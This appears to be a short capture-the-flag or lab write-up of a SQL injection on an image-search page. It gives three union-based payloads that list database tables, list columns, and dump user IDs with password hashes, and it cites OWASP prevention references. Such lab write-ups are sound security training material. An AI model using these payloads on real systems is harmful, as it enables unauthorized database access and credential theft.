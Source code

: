 # SQL injection (search iamges page)

To exploit, go to the `http://$IPADDR/?page=searchimg` and write the following commands at the search field:

List all the tables and related databases:
```
1 union select table_name, table_schema from information_schema.tables
```

List all table columns and related table names:
```
1 union select column_name, table_name from information_schema.columns
```

List all users with encrypted passwords:
```
1 union select 1, concat(user_id, char(124), countersign, char(124), Commentaire) from Member_Sql_Injection.users
```

## References
- [Information_schema](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html) structure
- [SQL Injection Attack — OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLi Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLi payload examples — PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)